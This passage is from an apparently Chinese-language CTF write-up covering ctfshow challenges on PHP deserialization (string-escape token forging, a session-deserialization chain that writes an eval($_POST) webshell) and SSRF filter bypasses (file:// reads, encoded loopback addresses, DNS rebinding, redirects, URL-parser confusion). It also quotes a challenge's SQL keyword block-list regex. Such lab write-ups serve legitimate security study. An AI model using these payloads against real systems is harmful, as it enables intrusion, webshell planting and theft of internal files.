   ?>
   ```

5. payload就应该为`";s:5:"token";s:4:"admin";}`，一共27个字符，每构造一次`fuck`被替换可以逃逸出来一个字符，那就需要构造27个`fuck`，来替代`payload`，反序列化时`"`刚好闭合前面的，让后面的`payload`作为反序列化的字符串被执行出来。

   ```php
   <?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   $f='a';
   $m='b';
   $t='fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
   $msg = serialize(new message($f,$m,$t));
   echo $msg.'<br>';
   //O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:135:"fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}
   
   $b=str_replace("fuck","loveU",$msg);
   echo $b.'</br>';
   //O:7:"message":4:{s:4:"from";s:1:"a";s:3:"msg";s:1:"b";s:2:"to";s:135:"loveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveUloveU";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}
   
   echo base64_encode($b);
   //Tzo3OiJtZXNzYWdlIjo0OntzOjQ6ImZyb20iO3M6MToiYSI7czozOiJtc2ciO3M6MToiYiI7czoyOiJ0byI7czoxMzU6ImxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVWxvdmVVbG92ZVVsb3ZlVSI7czo1OiJ0b2tlbiI7czo1OiJhZG1pbiI7fSI7czo1OiJ0b2tlbiI7czo0OiJ1c2VyIjt9
   ?>
   ```

6. 利用工具提交就行了

   

7. 非预期解法，因为`message.php`只对传递cookie值进行反序列化中的`token==admin`进行检验，那么我们直接构造`token='admin'`就可以了

   ```php
   <?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='admin';
   }
   echo base64_encode(serialize(new message()));
   //Tzo3OiJtZXNzYWdlIjo0OntzOjQ6ImZyb20iO047czozOiJtc2ciO047czoyOiJ0byI7TjtzOjU6InRva2VuIjtzOjU6ImFkbWluIjt9
   ?>
   ```

   


### web263

1. 源码泄漏，访问`www.zip`，把源码下载下来

2. 代码审计，一看到`ini_set('session.serialize_handler', 'php');`就应该是`session反序列化`

   ```php
   #inc.php
   <?php
   error_reporting(0);
   ini_set('display_errors', 0);
   
   //php处理器引擎
   ini_set('session.serialize_handler', 'php');
   date_default_timezone_set("Asia/Shanghai");
   session_start();
   use \CTFSHOW\CTFSHOW; 
   require_once 'CTFSHOW.php';
   $db = new CTFSHOW([
       'database_type' => 'mysql',
       'database_name' => 'web',
       'server' => 'localhost',
       'username' => 'root',
       'password' => 'root',
       'charset' => 'utf8',
       'port' => 3306,
       'prefix' => '',
       'option' => [
           PDO::ATTR_CASE => PDO::CASE_NATURAL
       ]
   ]);
   
   // sql注入检查
   function checkForm($str){
       if(!isset($str)){
           return true;
       }else{
       return preg_match("/select|update|drop|union|and|or|ascii|if|sys|substr|sleep|from|where|0x|hex|bin|char|file|ord|limit|by|\`|\~|\!|\@|\#|\\$|\%|\^|\\|\&|\*|\(|\)|\（|\）|\+|\=|\[|\]|\;|\:|\'|\"|\<|\,|\>|\?/i",$str);
       }
   }
   
   
   class User{
       public $username;
       public $password;
       public $status;
       function __construct($username,$password){
           $this->username = $username;
           $this->password = $password;
       }
       function setStatus($s){
           $this->status=$s;
       }
       function __destruct(){
           file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
       }
   }
   
   /*生成唯一标志
   *标准的UUID格式为：xxxxxxxx-xxxx-xxxx-xxxxxx-xxxxxxxxxx(8-4-4-4-12)
   */
   
   function  uuid()  
   {  
       $chars = md5(uniqid(mt_rand(), true));  
       $uuid = substr ( $chars, 0, 8 ) . '-'
               . substr ( $chars, 8, 4 ) . '-' 
               . substr ( $chars, 12, 4 ) . '-'
               . substr ( $chars, 16, 4 ) . '-'
               . substr ( $chars, 20, 12 );  
       return $uuid ;  
   }  
   ```

   ```php
   #index.php
   <?php
   	error_reporting(0);
   	session_start();
   	//超过5次禁止登陆
   	if(isset($_SESSION['limit'])){
       //这里是变量是假条件，所以不会限制登录，而会不断覆盖session变量
   		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
   		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
   	}else{
   		 setcookie("limit",base64_encode('1'));
   		 $_SESSION['limit']= 1;
   	}
   .....
   ?>
   ```

   ```php
   #check.php
   <?php
   error_reporting(0);
   require_once 'inc/inc.php';
   $GET = array("u"=>$_GET['u'],"pass"=>$_GET['pass']);
   
   
   if($GET){
   
   	$data= $db->get('admin',
   	[	'id',
   		'UserName0'
   	],[
   		"AND"=>[
   		"UserName0[=]"=>$GET['u'],
   		"PassWord1[=]"=>$GET['pass'] //密码必须为128位大小写字母+数字+特殊符号，防止爆破
   		]
   	]);
   	if($data['id']){
   		//登陆成功取消次数累计
   		$_SESSION['limit']= 0;
   		echo json_encode(array("success","msg"=>"欢迎您".$data['UserName0']));
   	}else{
   		//登陆失败累计次数加1
   		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit'])+1);
   		echo json_encode(array("error","msg"=>"登陆失败"));
   	}
   }
   ```

4. 在`inc.php`写了本地处理器引擎是php，所以全局处理器引擎肯定是`php_serialize`，那就可以进行利用了，先找一下`session`是否可控，这里访问`index.php`第一次就被设置了`session`

   ```php
   <?php
   	error_reporting(0);
   	session_start();
   	//超过5次禁止登陆
   	if(isset($_SESSION['limit'])){
       //这里是变量是假条件，所以不会限制登录，而会不断覆盖session变量
   		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
   		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
   	}else{
   		 setcookie("limit",base64_encode('1'));
   		 $_SESSION['limit']= 1;
   	}
   ?>
   ```

5. 在`inc.php`中有`User`类可以进行写入文件操作，那么就可以进行利用了写反序列化链了，这里不知道是服务器的bug还是啥，单独写一句话木马不会被写进文件，要加上另一句才会执行。离谱....

   ```php
   <?php
   class User{
       public $username;
       public $password;
       function __construct(){
           $this->username = "5.php";
           $this->password = '<?php eval($_POST[2]);phpinfo();?>';
       }
   }
   echo base64_encode("|".serialize(new User()));
   //fE86NDoiVXNlciI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiI1LnBocCI7czo4OiJwYXNzd29yZCI7czozNDoiPD9waHAgZXZhbCgkX1BPU1RbMl0pO3BocGluZm8oKTs/PiI7fQ==
   
   ?>
   ```

6. 先改掉`index.php`的`cookie`值，重新加载后，访问`check.php`用php引擎进行处理`session`变量值进行反序列化操作，写入我们的小马文件

   

7. 访问`log-5.php`利用工具进行连接

   

​	

### web264

1. 这道题是web262的修复版，主要是将`message.php`中msg变量放在了`session`当中，修复了非预期解法，还是用php反序列化字符串逃逸的办法。

2. 解法就不赘述了，直接放代码

   ```php
   <?php
   class message{
       public $from;
       public $msg;
       public $to;
       public $token='user';
       public function __construct($f,$m,$t){
           $this->from = $f;
           $this->msg = $m;
           $this->to = $t;
       }
   }
   
   $payload='fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
   // echo strlen($payload);
       $msg = new message(1,2,$payload);
       $old =serialize($msg);
       echo $old;
       $new=str_replace("fuck","loveU",$old);
       echo base64_encode($new);
       // var_dump(unserialize($new));
       //O:7:"message":4:{s:4:"from";i:1;s:3:"msg";i:2;s:2:"to";s:4:"fuck";s:5:"token";s:5:"admin";}
       //payload=";s:5:"token";s:5:"admin";}
       
   ?>
   ```

3. 利用工具先提交首页接收的参数，将序列化的值传入`session`中的msg变量中

   

4. 再访问`message.php`，cookie中随便进行赋值绕过检测

   

5. 再刷新下，进行反序列化操作，让我们的payload逃逸出来，拿到flag

   


### web265

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   include('flag.php');
   highlight_file(__FILE__);
   class ctfshowAdmin{
       public $token;
       public $password;
   
       public function __construct($t,$p){
           $this->token=$t;
           $this->password = $p;
       }
     //成员函数，当执行login方法，要检查token和password值是否全等，并进行返回值
       public function login(){
           return $this->token===$this->password;
       }
   }
   
   //接收值，并进行反序列化
   $ctfshow = unserialize($_GET['ctfshow']);
   //这里使对象中的成员属性值赋值为随机数的md5值
   $ctfshow->token=md5(mt_rand());
   
   if($ctfshow->login())
     //调用成员方法，当为真时输出flag
   {
       echo $flag;
   }
   ```

2. 这里`token`值不可控，所以只能从`password`下手，利用`&`进行构造，当`$password=&$token`那么无论`token`值为多少，`password`都与他相等

   ```php
   <?php
   class ctfshowAdmin{
       public $token;
       public $password;
   
       public function __construct($t,$p){
           $this->token=$t;
           $this->password = &$this->token;
       }
       public function login(){
           return $this->token===$this->password;
       }
   }
   $a =new ctfshowAdmin('123','123');
   $old=serialize($a);
   echo $old;
   
   //O:12:"ctfshowAdmin":2:{s:5:"token";s:3:"123";s:8:"password";R:2;}
   ```

3. 利用工具，url传参数即可

   


### web266

1. 依旧代码审计

   ```php
   <?php
   highlight_file(__FILE__);
   
   include('flag.php');
   $cs = file_get_contents('php://input');
   
   class ctfshow{
       public $username='xxxxxx';
       public $password='xxxxxx';
       public function __construct($u,$p){
           $this->username=$u;
           $this->password=$p;
       }
       public function login(){
           return $this->username===$this->password;
       }
       public function __toString(){
           return $this->username;
       }
       public function __destruct(){
           global $flag;
           echo $flag;
       }
   }
   $ctfshowo=@unserialize($cs);
   if(preg_match('/ctfshow/', $cs)){
     //如果接收到的序列化字符串中有ctfshow就会抛出异常，不会执行__destruct魔术方法
       throw new Exception("Error $ctfshowo",1);
   }
   ```

2. 可以利用对象名大小写进行绕过

   ```php
   <?php
   class CTFshow{
       public $username='xxxxxx';
       public $password='xxxxxx';
   }
   echo serialize(new CTFshow());
   
   //O:7:"CTFshow":2:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";}
   ```

3. 利用工具提交

   


## SSRF

### web351

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   //初始化
   $ch=curl_init($url);
   //设置属性
   curl_setopt($ch, CURLOPT_HEADER, 0);
   //将curl_exec()获取的信息以字符串返回，而不是直接输出。
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   //执行结果
   $result=curl_exec($ch);
   //关闭url请求
   curl_close($ch);
   echo ($result);
   ?> 
   ```

2. 这里利用`ssrf`读取下本机文件看看

   ```shell
   #POST提交
   url=file:///var/www/html/flag.php
   ```

   

3. 后面还有一串，看看代码

   ```php
   <?php
   
   $flag="ctfshow{79220bfb-81a6-4090-b4ed-dc37d008f066}";
   if($_SERVER['REMOTE_ADDR']=='127.0.0.1')
     //判断当前浏览的用户的IP地址是否等于127.0.0.1
   {
   		echo $flag;
   }
   else{
   		die("非本地用户禁止访问");
   }
   ?>
   ```

4. 那么我们还可以这样直接请求

   ```shell
   #POST请求
   url=127.0.0.1/flag.php
   ```


### web352

1. 依旧代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   //解析一个URL并返回一个关联数组，包含在 URL 中出现的各种组成部分。
   $x=parse_url($url);
   if($x['scheme']==='http'||$x['scheme']==='https')
   {
   if(!preg_match('/localhost|127.0.0/'))
     //正则如果没有匹配localhost或者127.0.0,这里都没要匹配的字符串变量...默认肯定为真
   {
   $ch=curl_init($url);
   curl_setopt($ch, CURLOPT_HEADER, 0);
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   $result=curl_exec($ch);
   curl_close($ch);
   echo ($result);
   }
   else{
       die('hacker');
   }
   }
   else{
       die('hacker');
   } 
   ```

2. 所以只需要满足http或者https前缀就行了，直接构造

   ```shell
   #POST请求
   url=http://127.0.0.1/flag.php
   ```

   


### web353

1. 依旧代码审计

   ```php
    <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   $x=parse_url($url);
   if($x['scheme']==='http'||$x['scheme']==='https'){
   if(!preg_match('/localhost|127\.0\.|\。/i', $url))
     //正则过滤了localhost,127.0.,。号
   {
   $ch=curl_init($url);
   curl_setopt($ch, CURLOPT_HEADER, 0);
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   $result=curl_exec($ch);
   curl_close($ch);
   echo ($result);
   }
   else{
       die('hacker');
   }
   }
   else{
       die('hacker');
   }
   ?> 
   ```

2. 这里要进行绕过，可以利用进制转换，[在线转换网址](https://tool.520101.com/wangluo/jinzhizhuanhuan/)

   ```shell
   十六进制
   url=http://0x7F.0.0.1/flag.php
   八进制
   url=http://0177.0.0.1/flag.php
   10 进制整数格式
   url=http://2130706433/flag.php
   16 进制整数格式，还是上面那个网站转换记得前缀0x
   url=http://0x7F000001/flag.php
   还有一种特殊的省略模式
   127.0.0.1写成127.1
   用CIDR绕过localhost
   url=http://127.127.127.127/flag.php
   还有很多方式不想多写了
   url=http://0/flag.php
   url=http://0.0.0.0/flag.php
   ```

   


### web354

1. 依旧代码审计

   ```php
    <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   $x=parse_url($url);
   if($x['scheme']==='http'||$x['scheme']==='https')
   {
   if(!preg_match('/localhost|1|0|。/i', $url))
     //过滤了localhost,1,0,。号
   {
   $ch=curl_init($url);
   curl_setopt($ch, CURLOPT_HEADER, 0);
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   $result=curl_exec($ch);
   curl_close($ch);
   echo ($result);
   }
   else{
       die('hacker');
   }
   }
   else{
       die('hacker');
   }
   ?> 
   ```

2. 这里把`1`和`0`都过滤了，肯定不能用进制转换了，可以用自己的vps，访问页面进行重定向跳转到127.0.0.1，还有其他的方法，这里贴一下y4师傅的方法进行学习

   ```shell
   1.DNS-Rebinding攻击绕过
   #自己去ceye.io注册绑定127.0.0.1然后记得前面加r
   url=http://r.xxxzc8.ceye.io/flag.php
   
   2.利用vps搭建页面，进行跳转
   <?php
   header("Location:http://127.0.0.1/flag.php");
   ?>
   
   3.用自己的域名，将A记录设置为127.0.0.1
   
   4.现成的A记录是127.0.0.1的网站
   url=http://sudo.cc/flag.php
   ```


### web355

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   $x=parse_url($url);
   if($x['scheme']==='http'||$x['scheme']==='https'){
   $host=$x['host'];
   if((strlen($host)<=5))
     //对IP长度进行限制
   {
   $ch=curl_init($url);
   curl_setopt($ch, CURLOPT_HEADER, 0);
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   $result=curl_exec($ch);
   curl_close($ch);
   echo ($result);
   }
   else{
       die('hacker');
   }
   }
   else{
       die('hacker');
   }
   ?>
   ```

2. 限制ip和域名长度要小于5，所以利用特殊写法来写

   ```shell
   #POST提交
   url=http://127.1/flag.php
   url=http://0/flag.php
   url=http://0.0.0/flag.php
   ```

   


### web356

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   $x=parse_url($url);
   if($x['scheme']==='http'||$x['scheme']==='https'){
   $host=$x['host'];
   if((strlen($host)<=3))
   //继续对ip/域名长度限制
   {
   $ch=curl_init($url);
   curl_setopt($ch, CURLOPT_HEADER, 0);
   curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
   $result=curl_exec($ch);
   curl_close($ch);
   echo ($result);
   }
   else{
       die('hacker');
   }
   }
   else{
       die('hacker');
   }
   ?>
   ```

2. 还是上一题的用特殊方法进行绕过

   ```shell
   #POST方法
   url=http://0/flag.php
   ```

   

### web357

1. 代码审计

   ```php
    <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   $x=parse_url($url);
   if($x['scheme']==='http'||$x['scheme']==='https'){
     //gethostbyname返回域名对应的IPv4地址
   $ip = gethostbyname($x['host']);
   echo '</br>'.$ip.'</br>';
     //利用php过滤器把值作为 IP 地址来验证，过滤私有ip地址和保留地址
   if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
       die('ip!');
   }
   
   
   echo file_get_contents($_POST['url']);
   }
   else{
       die('scheme');
   }
   ?> scheme
   ```

2. 这里可以用web355的两种办法，绕过私有地址的检测

   ```shell
   1.DNS-Rebinding攻击绕过
   
   2.利用vps搭建页面，重定向进行跳转
   <?php
   header("Location:http://127.0.0.1/flag.php");
   ?>
   ```

3. 这里详细讲一下`DNS-Rebinding`进行绕过，首先在[ceye.io](http://ceye.io/)平台进行注册账户，然后在个人资料`profile`页面添加两个`127.0.0.1`和`随便写个公网`地址

   

4. 然后找到`ceye.io`个人的域名(identifier)，在前面添加r

   ```shell
   #POST提交
   url=http://r.xxx.ceye.io/flag.php
   ```
5. 利用工具进行提交，当第一次提交时，域名会被解析成`127.0.0.1`，在过滤器会被检测到内网地址，会输出`ip!`，因为重绑定的原因，每过几秒就会刷新域名绑定ip信息，重新提交后，域名会被解析成`1.1.1.120`绕过过滤器检测，在`file_get_contents`又会重新解析为`127.0.0.1`，获取到flag.php，达到ssrf的攻击效果。

   

   `DNS-Rebinding`参考文档:https://www.freebuf.com/column/194861.html

   

### web358

1. 代码审计

   ```php
   <?php
   error_reporting(0);
   highlight_file(__FILE__);
   $url=$_POST['url'];
   $x=parse_url($url);
   if(preg_match('/^http:\/\/ctf\..*show$/i',$url))
     //正则匹配http://ctf.开头show结尾的url
   {
     
       echo file_get_contents($url);
   } 
   ```

2. 所以要利用 URL 解析问题进行构造url

   ```shell
   #POST提交
   url=http://ctf.@127.0.0.1/flag.php?show
   ```

   


### web359

利用Gophers攻击，以后补坑

### web360

利用Gophers攻击，以后补坑
